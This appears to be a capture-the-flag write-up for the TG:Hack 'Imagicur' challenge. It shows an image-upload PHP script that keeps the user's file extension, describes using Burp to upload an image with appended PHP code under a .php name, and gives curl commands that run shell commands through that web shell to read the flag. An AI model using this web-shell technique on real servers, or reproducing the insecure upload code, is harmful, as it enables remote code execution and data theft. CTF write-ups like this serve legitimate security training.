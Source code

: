 ```yaml
---
layout: default
---
```


![Imagicur (150 pts)](./screenshots/Imagicur.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://imagicur.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Imagicur_home.png)

  - Page Source:
    ```html
    <html>
    <body>

    <form action="upload.php" method="post" enctype="multipart/form-data">
        Select image to upload:
        <input type="file" name="fileToUpload" id="fileToUpload">
        <input type="submit" value="Upload Image" name="submit">
    </form>
 
    </body>
    </html>
    ```
- __ASSUMED OBJECTIVE__: Exploit a vulnerability in __*upload.php*__

---

## Step 1 : Examine the given source code for __*upload.php*__

- __*upload.php*__
  ```PHP
  <?php
  $target_dir = "uploads/";
  $uplFilename = basename($_FILES["fileToUpload"]["name"]);
  $imageFileType = strtolower(pathinfo($uplFilename,PATHINFO_EXTENSION));
  $filename = uniqid() . ".$imageFileType";
  $target_file = $target_dir . $filename;
  $uploadOk = 1;
  // Check if image file is a actual image or fake image
  if(isset($_POST["submit"])) {
      $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
      if($check !== false) {
          echo "File is an image - " . $check["mime"] . ".";
          $uploadOk = 1;
      } else {
          echo "File is not an image.";
          $uploadOk = 0;
      }
  }

  if($uploadOk == 0) {
	  echo "Failed upload :( Is it a valid image file?";
  } else {
	  move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	  echo "File available at <a href='$target_file'>$target_file</a>";
  }

  ?>
  ```
  __Notes:__
  - __PATHINFO_EXTENSION__ takes the last given file extension
    - __double extensions__ and __null byte injection__ won't work
  - The __file extension__ of the uploaded file is __appended__ and saved to a __new filename__
  - The uploaded file __needs__ to be an image
  - Successfully uploaded files are save in the __uploads/__ directory

---

## Step 2 : Create a working payload

1. Upload an image and intercept the request using __Burp__

   ![upload](./screenshots/Imagicur_upload.png)

2. Pass the request to __Burp *repeater*__

   ![upload](./screenshots/Imagicur_upload_1.png)

   __Note__:
   - The image was succesfully uploaded.

3. Edit the *request* to contain RCE (Remote Code Execution)
   1. Change the extension of the image to __php__:
      ```
      -----------------------------payload
      Content-Disposition: form-data; name="fileToUpload"; filename="imagicur_payload.php"
      Content-Type: image/png
      ```
   2. Append __PHP code__ at the end of the image data
      
      ![RCE code](./screenshots/Imagicur_upload_2.png)

      __Note__:
      - The file was uploaded with a __*.php*__ extension.

---

## Step 3 : Extract the flag

   ```sh
   curl -d "cmd=ls -lah ../" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # ...
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 .
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 ..
   # -rw-r--r-- 1 root     root       35 Apr 16 07:09 flag.txt
   # -rw-r--r-- 1 root     root      262 Apr 16 07:09 index.php
   # -rw-r--r-- 1 root     root      827 Apr 16 07:09 upload.php
   # drwxr-xr-x 1 www-data www-data  20K Apr 19 13:31 uploads

   curl -d "cmd=cat ../flag.txt" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # TG19{phony_php_images_can_b_scary}
   ```

---

## FLAG : __TG19{phony_php_images_can_b_scary}__
